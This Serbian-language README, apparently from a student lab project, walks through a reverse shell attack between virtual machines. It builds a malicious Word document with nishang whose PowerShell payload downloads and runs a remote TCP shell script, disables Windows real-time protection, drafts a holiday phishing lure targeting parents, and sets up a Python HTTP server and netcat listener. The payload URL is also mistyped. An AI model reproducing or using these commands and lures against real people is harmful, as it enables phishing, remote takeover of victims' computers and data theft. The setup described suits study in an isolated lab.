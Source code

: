 # Instrukcije za izvršeni napad

Reverse shell attack je napad u kojem računar žrtve inicira vezu ka računaru napadača (ne svojom voljom), omogućavajući napadaču pristup komandnoj liniji računara žrtve. U dokumentu se nalaze detaljne instrukcije za izvršeni napad na datom projektu.

## Sadržaj

- [Kratak opis načina izvođenja napada](#kratak-opis)
- [Kreiranje malicioznog word dokumenta](#kreiranje-malicioznog-word-dokumenta)
- [Kreiranje phishing mejla](#kreiranje-phishing-mejla)
- [Kreiranje HTTP Servera za osluškivanje](#kreiranje-http-servera-za-osluškivanje)
- [Primer uspešnog napada](#primer-uspešnog-napada)

## Kratak opis

Napad se sastoji iz tri koraka:

&ensp;&ensp;1. Kreiranje malicioznog word dokumenta preko kojeg će žrtva inicirati konekciju ka napadaču

&ensp;&ensp;2. Kreiranje phishing mejla preko kojeg će žrtva preuzeti maliciozni word dokument

&ensp;&ensp;3. Kreiranje HTTP servera preko kojeg će napadač osluškivati zahteve za konekcuju

Operativni sistemi žrtve i napadača podignuti su na virtuelnoj mašini kako bi se osigurala sigurnost. Operativni sistem žrtve je Windows 10, dok je operativni sistem napača Kali Linux. Softver koji je korišćen u kreiranju virtuelnih mašina je Oracle VM VirtualBox.

Za kreiranje malicioznog word dokumenta i HTTP servera koriste se shell skripte koje se mogu pronaći na sledećem GitHub repozitorijumu: [nishang](https://github.com/samratashok/nishang)

## Kreiranje malicioznog word dokumenta

Maliciozni word dokument kreiran je na operativnom sistemu žrtve (Windows 10). Koraci su sledeći:

&ensp;&ensp;1. Nakon pokretanja operativnog sistema, potrebno je isključiti real-time protection.

![Primer screenshot-a](\Screenshots\real_time_protection.png)

&ensp;&ensp;2. Zatim, potrebno je preuzeti nishang GitHub repozitorijum: [nishang](https://github.com/samratashok/nishang)

&ensp;&ensp;3. Ekstraktovati repozitorijum na željenu lokaciju, otvoriti direktorijum u powershell-u kao administrator i pozicionirati se u poddirektorijum Client.

![Primer screenshot-a](\Screenshots\positioning.png)

&ensp;&ensp;4. Uneti komandu koja će da dot source-uje dokument pomoću kojeg se kreira maliciozni word dokument (Out-Word.ps1).

`. .\Out-Word.ps1`

![Primer screenshot-a](\Screenshots\dot_sourced.png)

&ensp;&ensp;4. Nakon toga, potrebno je uneti komandu koja će kreirati maliciozni word dokument. Potrebno je izmeniti dve IP adrese u komandi na adresu napadača, kao i definisati putanju gde će se sačuvati fajl i dodeliti mu se proizvoljno ime.

`Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadString('http//127.0.0.1/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 127.0.0.1 -Port 4444" -OutputFile C:\Users\vboxuser\Desktop\malware_word_document.doc`

![Primer screenshot-a](\Screenshots\creating_malicious_file.png)

## Kreiranje phishing mejla

Nakon kreiranja malicioznog word dokumenta, potrebno je sastaviti phishing mejl, pronaći i prevariti žrtvu. U našem primeru, sastavljen je mejl koji traži od žrtve da preuzme dokument i u njega unese informacije svoje dece da bi deca mogla dobiti navode paketiće. Ideja je takva da bi se mejl slao u prazničnom periodu.

![Primer screenshot-a](\Screenshots\phishing_mail.png)

## Kreiranje HTTP Servera za osluškivanje

Server koji osluškuje konekcije od žrtve biće kreiran na operativnog sistemu napadača (Kali Linux). Koraci su sledeći:

&ensp;&ensp;1. U terminalu uneti komandu koja će preuzeti fajl sa skriptom za payload attack.

`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

![Primer screenshot-a](\Screenshots\downloading_payload_script.png)

&ensp;&ensp;2. Otvoriti preuzeti fajl i dodati sledeću liniju na kraj. Potrebno je IP adresu zameniti sa IP adresom napadača.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 4444`

![Primer screenshot-a](\Screenshots\modifying_payload_script.png)

&ensp;&ensp;3. Pokrenuti HTTP server i listener-a u dva zasebna terminala.

`sudo python3 -m http.server 80`

`nc -lvnp 4444`

![Primer screenshot-a](\Screenshots\starting_server.png)

## Primer uspešnog napada

Ako je sve podešeno kako je potrebno, uspešan napad bi trebao da izgleda:

![Primer screenshot-a](Screenshots\attack_example.png)
